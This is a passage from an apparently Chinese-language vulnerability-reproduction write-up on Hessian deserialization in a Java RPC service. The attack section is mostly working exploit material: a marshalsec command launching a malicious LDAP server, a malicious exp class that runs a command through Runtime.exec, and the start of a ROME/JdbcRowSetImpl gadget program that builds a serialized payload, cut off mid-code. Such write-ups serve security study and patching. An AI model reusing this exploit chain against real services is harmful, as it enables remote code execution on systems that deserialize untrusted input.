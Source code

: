 ![image-20231023141639877](images/8.png)

发现实现从client中调用了server中的service的实现类，跨JVM进行了一次RPC通讯

在server端添加一个依赖

```
<dependency>
  <groupId>com.rometools</groupId>
  <artifactId>rome</artifactId>
  <version>1.7.0</version>
</dependency>
```

# 漏洞复现

用marshalsec起一个恶意的ldap服务端

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/#exp
```

恶意类exp.class

```
public class exp {
    public exp() throws Exception{
        Runtime.getRuntime().exec("open -a Calculator");
    }
}
```

生成序列化文件

```
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;

import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.net.Socket;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class rometest {

    public static void main(String[] args) {
        try {
```